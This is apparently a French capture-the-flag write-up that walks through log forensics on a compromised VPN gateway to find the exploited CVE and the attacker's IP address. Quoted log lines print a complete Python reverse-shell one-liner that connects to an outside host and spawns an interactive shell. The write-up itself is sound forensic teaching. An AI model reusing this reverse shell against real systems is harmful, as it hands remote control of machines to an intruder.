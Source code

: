 >Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l’équipement. Vous focalisez maintenant votre attention sur les journaux. L’équipement étant compromis, vous devez retrouver la vulnérabilité utilisée par l’attaquant ainsi que l’adresse IP de ce dernier.
>>Le flag est au format : FCSC{CVE-XXXX-XXXXX:<IP_ADDRESS>}.
>Fichiers: horreur-malheur.tar.xz

Ce challenge est un peu séparé des autres car il pouvait être réalisé indépendamment de la résolution de l'étape 1.

On nous fournit une archive contenant les fichiers suivants:

Grâce au rapport utilisé dans la partie 1, on sait déjà qu'on a à faire à la CVE-2023-46805 (Authentication Bypass) ou la CVE-2024-21887 (Remote Command Execution).

On cherche donc en priorité l'adresse IP de l'attaquant

```shell
$ tree
.
└── data
    └── var
        └── dlogs
            ├── aaaservices_rest_server.log
            ├── aaaservices_rest_server.log.old
            ├── cav_webserv.log
            ├── cav_webserv.log.old
            ├── config_rest_server.log
            ├── config_rest_server.log.old
            ├── custom_actions_rest_server.log
            ├── custom_actions_rest_server.log.old
            ├── debuglog
            ├── debuglog.old
            ├── enduserportal_rest_server.log
            ├── enduserportal_rest_server.log.old
            ├── esapdata_rest_server.log
            ├── esapdata_rest_server.log.old
            ├── gwpolicy_rest_server.log
            ├── gwpolicy_rest_server.log.old
            ├── monrestserver.log
            ├── namedusersrestserver.log
            ├── namedusersrestserver.log.old
            ├── nodemonlog
            ├── nodemonlog.old
            ├── session_rest_server.log
            ├── system_import_debuglog
            ├── tasks_rest_server.log
            ├── tasks_rest_server.log.old
            ├── ueba_webserv.log
            └── user_import_debuglog

4 directories, 27 files
```
Des logs de serveur. 
On grep pour trouver des adresses IPs, en excluant les adresses locales
```shell
$ grep -r -E '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | grep -v 172 | grep -v 127
```
et on tombe sur une adresse ip intéressante...
```shell
$ grep -r 20.13.3.0
data/var/dlogs/nodemonlog.old:21969     1  0.0  0.0 S   452   4852  3808 /bin/sh -c /home/perl5/bin/perl /home/perl/AwsAzureTestConnection.pl ;python -c 'import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i
data/var/dlogs/nodemonlog.old:21971 21969  0.0  0.0 S  2296   9532  7972 python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
[...]
```